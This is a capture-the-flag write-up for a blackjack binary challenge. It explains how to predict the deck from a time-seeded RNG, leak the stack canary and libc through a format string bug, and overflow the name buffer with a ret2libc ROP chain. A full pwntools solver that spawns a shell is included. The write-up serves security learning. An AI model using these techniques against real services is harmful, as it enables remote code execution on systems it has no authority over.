

# Jack Black — DalCTF 2026 Writeup

## Challenge Description:
You just got invited to play a completely new game, different than everything ever created. They call it Jack Black, the creators were probably big Kung Fu Panda fans. Either way, you heard that the house always wins, but maybe your ropfu can even the score

Instance available at:
`nc instancer.dalctf2026.com 31732`

---

## 1. TL;DR

This is a `blackjack` pwn challenge with **two bugs chained together** inside the win path:

1. After winning a hand, the program reads our name into a **64-byte buffer with `fgets(name, 256, stdin)`**, giving a **stack overflow**.
2. It then prints our name with **`printf(name)`**, giving a **format string vulnerability**.

The game RNG is seeded with `srand(time(NULL))`, so we can **predict the cards** by reconstructing the seed from the first visible hand. That lets us force a win whenever we need one.

Exploit plan:

- Predict the deck using `time(NULL)` + glibc `rand()`
- Reach a winning hand
- Use format string to leak:
  - the **stack canary**
  - a **libc address**
- Compute `libc base`
- Reach another winning hand
- Overflow the `name` buffer and build a **ROP chain**:
  - `ret`
  - `pop rdi ; ret`
  - pointer to `"/bin/sh"`
  - `system`
  - `exit`
- Answer `n` to leave the loop and return into the ROP chain

Flag:
`dalctf{w3r3_y0u_c0unt1ng_c4rd5?}`

---

## 2. What data/file we have and what is special

We were given:

- `blackjack` — challenge binary
- `blackjack.c` — source code
- `libc.so.6` — remote libc
- `ld-linux-x86-64.so.2` — loader

What is special:

| File | Why it matters |
|---|---|
| `blackjack.c` | Gives us the exact vulnerabilities and control flow |
| `blackjack` | Lets us confirm offsets, stack layout, and gadgets |
| `libc.so.6` | Needed to compute exact `system`, `"/bin/sh"`, and gadgets after leaking libc |
| `ld-linux-x86-64.so.2` | Useful for reproducing the remote environment locally |

The most important code is the post-win transaction logic:

```c
if (won) {
    printf("\n*** You win! ***\n");
    printf("The casino will deposit your winnings.\n");
    printf("Enter your name for the transaction record: ");
    fgets(name, 256, stdin);
    name[strcspn(name, "\n")] = '\0';
    printf("Processing transaction for: ");
    printf(name);
    printf("\n\n");
}
```

This gives us both primitives in one place:

- **overflow** from `fgets(name, 256, stdin)` into `char name[64]`
- **format string** from `printf(name)`

There is one extra challenge: this vulnerable code only runs **after we win a hand**, so we cannot exploit it immediately. We first need a reliable way to beat the dealer.

---

## 3. Problem Analysis (In Details)

### 3.1 High-level program flow

The game loop is:

1. `play_hand()`
2. If we win:
   - ask for our name
   - read name unsafely
   - print it unsafely
3. Ask whether to play another hand
4. Repeat

So the exploit condition is:

> We must first win at blackjack, then abuse the vulnerable name input.

That means this is not just a normal `printf(name)` or straight stack smash challenge.  
It is a **gated exploit**.

### 3.2 Vulnerability 1 — format string

The program does:

```c
printf(name);
```

instead of:

```c
printf("%s", name);
```

That means any `%p`, `%s`, `%n`, etc. in our name will be interpreted as a format string.

This immediately gives us a way to leak stack values.  
In practice, the useful targets were:

- one stack slot containing the **canary**
- one stack slot containing a **libc return address / pointer**

For this challenge, the working leak positions were:

- `%41$p` → canary
- `%43$p` → libc leak

So a name like:

```text
%41$p|%43$p
```

prints something like:

```text
0x3b72f59659886500|0x7d15612ae28b
```

From there:

- canary = `0x3b72f59659886500`
- libc leak = `0x7d15612ae28b`

Then:

```text
libc_base = leaked_libc_ptr - 0x2a28b
```

### 3.3 Vulnerability 2 — stack overflow

The source declares:

```c
#define NAME_BUF 64
char name[NAME_BUF];
```

but later reads:

```c
fgets(name, 256, stdin);
```

This overflows far beyond the 64-byte buffer.

Because the function uses stack canaries, we cannot simply overwrite the saved return address blindly.  
We must first leak the canary using the format string, then place it correctly in the overflow payload.

The relevant stack layout is:

```text
[name buffer: 64 bytes]
[padding / compiler alignment]
[stack canary]
[saved rbp]
[return address]
```

The working offset to the canary was:

```text
72 bytes
```

So our overflow layout became:

```text
"A" * 72
+ leaked_canary
+ fake_rbp
+ rop_chain
```

### 3.4 Why RNG prediction is the real key

The vulnerable path only triggers **if `won` is true**.

Cards are generated using:

```c
srand(time(NULL));
rand() % 13 + 1
```

This is a classic weak PRNG setup. Since the server seeds with the current Unix timestamp, and we see the first cards immediately, we can brute-force nearby timestamps and find the exact seed that reproduces the observed hand.

Dealing order is:

1. player first card
2. dealer first card
3. player second card
4. dealer second card

So if the server shows:

- dealer upcard = `Q`
- player cards = `K`, `5`

we search nearby `time(NULL)` seeds until:

```text
deck[0] = K
deck[1] = Q
deck[2] = 5
```

Once we recover the seed, we can simulate the entire future deck exactly.

That gives us a solver that always knows:

- whether the current hand can be won
- how many hits we should take
- when to stop
- when the next guaranteed win will happen

This is why the challenge is effectively a **card-counting + memory corruption chain**.

### 3.5 Why we needed two winning hands

One winning hand is not enough.

We need:

- **first win** → use format string to leak canary and libc
- **second win** → use overflow to send final ROP chain

Because the name prompt happens only once per win, we use one win for information disclosure and another for code execution.

### 3.6 ROP design

Once libc base is known, ret2libc is easy.

We used:

- `ret` for stack alignment
- `pop rdi ; ret`
- pointer to `"/bin/sh"`
- `system`
- `exit`

So the final chain is:

```text
ret
pop rdi ; ret
/bin/sh
system
exit
```

After sending the overflow, we answer:

```text
n
```

to the prompt:

```text
Play another hand? [y/n]:
```

This causes `game_loop()` to return, and the saved RIP is replaced by our ROP chain.

---

## Concept Map



---

## 4. Exploitation Walkthrough / Flag Recovery

### 4.1 Step 1 — connect and recover the seed

When we connect, the program prints the current hand. Example:

```text
--- New Hand ---
Dealer shows: Q [?] (10)
Your hand   : K 5 (15)
(h)it or (s)tand?
```

We brute-force timestamps around the current time and replay glibc `rand()` until the first four dealt cards match:

- player 1st
- dealer 1st
- player 2nd
- dealer 2nd

Once matched, we know the exact seed and therefore the rest of the deck.

### 4.2 Step 2 — drive the game to a winning hand

Now we simulate the hand locally.

For each candidate number of hits:

- apply hits to the player
- compute resulting total
- simulate dealer draws until at least 17
- check whether player wins

If the current hand cannot be won, we just finish it and continue.  
If it can be won, we choose the exact hit/stand sequence that leads to victory.

### 4.3 Step 3 — first win: leak canary and libc

On the first winning hand, instead of overflowing immediately, we use the format string:

```text
%41$p|%43$p
```

This gave us output like:

```text
Processing transaction for: 0x3b72f59659886500|0x7d15612ae28b
```

So we recover:

```text
canary    = 0x3b72f59659886500
libc leak = 0x7d15612ae28b
libc base = 0x7d1561284000
```

This is enough to compute the final ROP targets.

### 4.4 Step 4 — compute libc symbols and gadgets

Using the provided `libc.so.6`, we resolve:

- `pop rdi ; ret`
- `system`
- `exit`
- `"/bin/sh"`

Example logic:

```python
pop_rdi_ret = libc_base + POP_RDI_RET_OFF
system_addr = libc_base + SYSTEM_OFF
exit_addr   = libc_base + EXIT_OFF
binsh_addr  = libc_base + BINSH_OFF
```

### 4.5 Step 5 — second win: send the final overflow

On the next predicted winning hand, we send the real payload.

Layout:

```text
padding up to canary
+ leaked canary
+ saved rbp filler
+ ret
+ pop rdi ; ret
+ /bin/sh
+ system
+ exit
```

Example:

```python
payload  = b"A" * 72
payload += p64(canary)
payload += b"B" * 8
payload += p64(ret_gadget)
payload += p64(pop_rdi_ret)
payload += p64(binsh_addr)
payload += p64(system_addr)
payload += p64(exit_addr)
```

### 4.6 Step 6 — trigger return and pop shell

After the name is processed, the program asks:

```text
Play another hand? [y/n]:
```

We answer:

```text
n
```

That exits `game_loop()`, so the corrupted stack frame is used and execution returns into our ROP chain.

Then we run:

```sh
cat flag.txt
```

and recover:

```text
dalctf{w3r3_y0u_c0unt1ng_c4rd5?}
```

### 4.7 Solver

```python
#!/usr/bin/env python3
from pwn import *
import ctypes
import re
import time

HOST = "instancer.dalctf2026.com"
PORT = 31732

context.arch = "amd64"
context.os = "linux"
context.log_level = "info"

elf  = ELF("./blackjack", checksec=False)
libc = ELF("./libc.so.6", checksec=False)

CANARY_FMT_IDX = 41
LIBC_FMT_IDX   = 43
LIBC_LEAK_OFF  = 0x2A28B

OFFSET_TO_CANARY = 72
RET_GADGET = 0x40101A

POP_RDI_RET_OFF = 0x10F78B
BINSH_OFF       = 0x1CB42F
SYSTEM_OFF      = 0x58750
EXIT_OFF        = 0x47BA0

glibc = ctypes.CDLL("libc.so.6")

CARD_MAP = {
    "A": 1, "J": 11, "Q": 12, "K": 13, "10": 10,
}

def c_rand_seq(seed: int, n: int):
    glibc.srand(seed)
    return [(glibc.rand() % 13) + 1 for _ in range(n)]

def card_to_int(tok: str) -> int:
    return CARD_MAP[tok] if tok in CARD_MAP else int(tok)

def hand_total(cards):
    total = 0
    aces = 0
    for c in cards:
        if c == 1:
            aces += 1
            total += 11
        elif c >= 11:
            total += 10
        else:
            total += c
    while total > 21 and aces > 0:
        total -= 10
        aces -= 1
    return total

def parse_initial_hand(blob: str):
    m = re.search(
        r"Dealer shows: (A|10|[2-9JQK]) \[\?\] \((\d+)\)\n"
        r"Your hand   : (A|10|[2-9JQK]) (A|10|[2-9JQK]) \((\d+)\)",
        blob
    )
    if not m:
        raise ValueError("failed to parse initial hand")
    dealer_up = card_to_int(m.group(1))
    p1 = card_to_int(m.group(3))
    p2 = card_to_int(m.group(4))
    return p1, dealer_up, p2

def recover_seed(p1, dealer_up, p2, window=20):
    now = int(time.time())
    cands = []
    for seed in range(now - window, now + window + 1):
        d = c_rand_seq(seed, 4)
        if d[0] == p1 and d[1] == dealer_up and d[2] == p2:
            cands.append(seed)
    if not cands:
        raise ValueError("no seed candidate found")
    return cands[0]

def simulate_hand(deck, idx, hits):
    p = [deck[idx], deck[idx + 2]]
    d = [deck[idx + 1], deck[idx + 3]]
    j = idx + 4

    for _ in range(hits):
        if hand_total(p) >= 21:
            break
        p.append(deck[j]); j += 1
        if hand_total(p) > 21:
            return False, j, p, d

    ptotal = hand_total(p)

    while hand_total(d) < 17:
        d.append(deck[j]); j += 1

    dtotal = hand_total(d)
    win = (dtotal > 21) or (ptotal > dtotal)
    return win, j, p, d

def best_actions_for_hand(deck, idx):
    for hc in range(0, 8):
        win, nxt, _, _ = simulate_hand(deck, idx, hc)
        if win:
            return ["h"] * hc + ["s"], nxt, True
    win, nxt, _, _ = simulate_hand(deck, idx, 0)
    return ["s"], nxt, False

def recv_until_prompt(io):
    return io.recvuntil(b"(h)it or (s)tand? ", timeout=5).decode(errors="ignore")

def play_to_win(io, deck, idx):
    actions, nxt, can_win = best_actions_for_hand(deck, idx)

    for a in actions:
        io.sendline(a.encode())
        if a == "h":
            io.recvuntil(b"(h)it or (s)tand? ", timeout=5)
        else:
            break

    out = io.recvuntil(b"Play another hand? [y/n]: ", timeout=5).decode(errors="ignore")
    return out, nxt, can_win

def main():
    io = remote(HOST, PORT)

    banner = recv_until_prompt(io)
    print(banner, end="")

    p1, dealer_up, p2 = parse_initial_hand(banner)
    seed = recover_seed(p1, dealer_up, p2)
    log.success(f"seed = {seed}")

    deck = c_rand_seq(seed, 512)
    deck_idx = 0

    while True:
        out, nxt_idx, can_win = play_to_win(io, deck, deck_idx)
        if can_win and "Enter your name for the transaction record:" in out:
            break
        io.sendline(b"y")
        io.recvuntil(b"(h)it or (s)tand? ", timeout=5)
        deck_idx = nxt_idx

    leak_fmt = f"%{CANARY_FMT_IDX}$p|%{LIBC_FMT_IDX}$p".encode()
    io.sendline(leak_fmt)

    leak_out = io.recvuntil(b"Play another hand? [y/n]: ", timeout=5).decode(errors="ignore")
    print(leak_out, end="")

    m = re.search(r"Processing transaction for: (0x[0-9a-fA-F]+)\|(0x[0-9a-fA-F]+)", leak_out)
    if not m:
        log.failure("failed to parse leaks")
        return

    canary = int(m.group(1), 16)
    libc_leak = int(m.group(2), 16)
    libc_base = libc_leak - LIBC_LEAK_OFF

    log.success(f"canary    = {hex(canary)}")
    log.success(f"libc leak = {hex(libc_leak)}")
    log.success(f"libc base = {hex(libc_base)}")

    pop_rdi_ret = libc_base + POP_RDI_RET_OFF
    system_addr = libc_base + SYSTEM_OFF
    exit_addr   = libc_base + EXIT_OFF
    binsh_addr  = libc_base + BINSH_OFF

    io.sendline(b"y")
    io.recvuntil(b"(h)it or (s)tand? ", timeout=5)
    deck_idx = nxt_idx

    while True:
        actions, nxt_idx, can_win = best_actions_for_hand(deck, deck_idx)
        if can_win:
            for a in actions:
                io.sendline(a.encode())
                if a == "h":
                    io.recvuntil(b"(h)it or (s)tand? ", timeout=5)
            out = io.recvuntil(b"Enter your name for the transaction record: ", timeout=5)
            if b"Enter your name" in out:
                break
        else:
            for a in actions:
                io.sendline(a.encode())
                if a == "h":
                    io.recvuntil(b"(h)it or (s)tand? ", timeout=5)
            io.recvuntil(b"Play another hand? [y/n]: ", timeout=5)
            io.sendline(b"y")
            io.recvuntil(b"(h)it or (s)tand? ", timeout=5)
        deck_idx = nxt_idx

    payload  = b"A" * OFFSET_TO_CANARY
    payload += p64(canary)
    payload += b"B" * 8
    payload += p64(RET_GADGET)
    payload += p64(pop_rdi_ret)
    payload += p64(binsh_addr)
    payload += p64(system_addr)
    payload += p64(exit_addr)

    io.sendline(payload)

    io.recvuntil(b"Play another hand? [y/n]: ", timeout=5)
    io.sendline(b"n")

    io.sendline(b"cat flag.txt 2>/dev/null; cat /flag 2>/dev/null; ls; id")
    io.interactive()

if __name__ == "__main__":
    main()
```

---

## 5. What We Learned

This challenge is a nice example of a **multi-stage pwn chain** where exploitation depends on solving the application logic first.

Main takeaways:

1. **A vulnerability behind a game condition is still exploitable**  
   If the vulnerable code only appears after a win, then the game logic becomes part of the exploit surface.

2. **Weak randomness can be just as important as memory corruption**  
   Without predicting the deck, getting reliable wins would be painful and inconsistent.  
   The `srand(time(NULL))` design made the whole challenge deterministic.

3. **Format string + overflow is a powerful combo**  
   The format string gives disclosure, the overflow gives control.  
   Together they bypass the canary and enable ret2libc.

4. **Provided libc matters**  
   Once we have a libc leak, the supplied `libc.so.6` turns the exploit from guesswork into exact arithmetic.

5. **Sometimes the cleanest exploit is staged**  
   Trying to do everything in one shot is unnecessary.  
   Leak first, compute second, exploit third.

This is also a good reminder that “game” binaries often hide very standard pwn primitives behind unusual interaction layers. Once the interaction layer is modeled correctly, the rest becomes a conventional exploit.

---
